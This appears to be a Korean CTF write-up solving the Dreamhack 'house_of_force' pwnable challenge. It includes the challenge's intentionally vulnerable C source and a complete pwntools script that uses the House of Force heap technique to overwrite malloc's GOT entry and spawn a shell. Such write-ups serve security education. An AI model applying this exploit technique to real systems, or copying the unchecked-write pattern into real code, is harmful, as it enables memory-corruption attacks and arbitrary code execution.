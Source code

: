 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN house_of_force"
excerpt: "드림핵 포너블 house_of_force 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-03-13 14:00
---
```


이번 문제는 house_of_force 취약점에 대한 문제이다. 이 기법은 top chunk의 사이즈를 조작하여 임의 주소에 힙 청크를 할당 할 수 있는 공격이다.

우선 바이너리 소스코드를 먼저 살펴보자.
```c++
// gcc -o force force.c -m32 -mpreferred-stack-boundary=2
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

int *ptr[10];

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
	int size;

	if( cnt > 10 ) {
		return 0;
	}

	printf("Size: ");
	scanf("%d", &size);

	ptr[cnt] = malloc(size);

	if(!ptr[cnt]) {
		return -1;
	}

	printf("Data: ");
	read(0, ptr[cnt], size);

	printf("%p: %s\n", ptr[cnt], ptr[cnt]);
	return 0;
}

int write_ptr() {
	int idx;
	int w_idx;
	unsigned int value;

	printf("ptr idx: ");
	scanf("%d", &idx);

	if(idx > 10 || idx < 0) {
		return -1;
	} 

	printf("write idx: ");
	scanf("%d", &w_idx);

	if(w_idx > 100 || w_idx < 0) {
		return -1;
	}
	printf("value: ");
	scanf("%u", &value);

	ptr[idx][w_idx] = value;

	return 0;
}

void get_shell() {
	system("/bin/sh");
}
int main() {
	int idx;
	int cnt = 0;
	int w_cnt = 0;
	initialize();

	while(1) {
		printf("1. Create\n");
		printf("2. Write\n");
		printf("3. Exit\n");
		printf("> ");

		scanf("%d", &idx);

		switch(idx) {
			case 1:
				create(cnt++);
				cnt++;
				break;
			case 2:
				if(w_cnt) {
					return -1;
				}
				write_ptr();
				w_cnt++;
				break;
			case 3:
				exit(0);
			default:
				break;
		}
	}

	return 0;
}
```
시나리오를 생각해보자.


우선 top chunk 주소를 알아낼 필요가 있다. 따라서 1번 메뉴를 통해 특정 사이즈 만큼의 청크를 생성하고 출력되는 주소값과 top chunk의 오프셋을 계산해 top chunk주소를 구한다.

이후 2번 메뉴를 통해 top chunk 크기를 0xffffffff로 덮어버린다. 배열 사이즈를 검증하지 않으므로 원하는 지점에 값을 덮을 수 있다. 그러면 탑 청크 크기만큼 청크를 할당 할 수 있으므로 원하는 주소의 값을 오버라이트 할 수 있다.

나는 malloc 함수 주소에 get_shell 함수 주소를 입력 하려고 한다. malloc got 주소에서 top chunk주소를 빼고 0x8를 뻰 값으로 페이로드를 구성한다. 0x8을 빼는 이유는 heap chunk가 구성될때 32비트 기준 8바이트를 헤더로 사용하기 때문에 오버라이트 하고자 하는 부분이 heap의 데이터 영역이 되게 하기 위함이다.

이후에 할당되는 부분은 malloc got의 주소에 값이 할당 될 것이며, 여기에는 get_shell 주소가 들어갈 것이다.

이후 malloc을 호출하면 쉘을 획득할 수 있다.


```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

#p = remote("host3.dreamhack.games", 24517);
#p = process("./oneshot", env={'LD_PRELOAD':'./libc.so.6'})
p = process("./house_of_force")
elf = ELF("./house_of_force")
#elf=ELF('./iofile_aw')

get_shell = 0x0804887e

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", b"17")
p.sendlineafter(b"Data: ", b"AAAA"*4)

leak_chunk = int(p.recvuntil(b"AAAA")[:-6], 16)
top_chunk = leak_chunk+20

print(f"leak chunk : {hex(leak_chunk)}")
print(f"top chunk size ptr : {hex(top_chunk)}")


p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"ptr idx: ", b"0")
p.sendlineafter(b"write idx: ", b"5")
p.sendlineafter(b"value: ", str(int(0xffffffff)))

target = elf.got['malloc']

payload = target-0x8-top_chunk
print(f"print - payload : {hex(payload)}")
print("print - "+("A"*payload))

#pause()
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(payload))
p.sendlineafter(b"Data: ", b"A"*payload)

pause()
print(f"send payload success")

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", b"4")
p.sendlineafter(b"Data: ", p32(get_shell))

print(f"send shell ptr success")

p.sendlineafter("> ", '1')
p.sendlineafter("Size: ", str(0x10))

p.interactive()
```

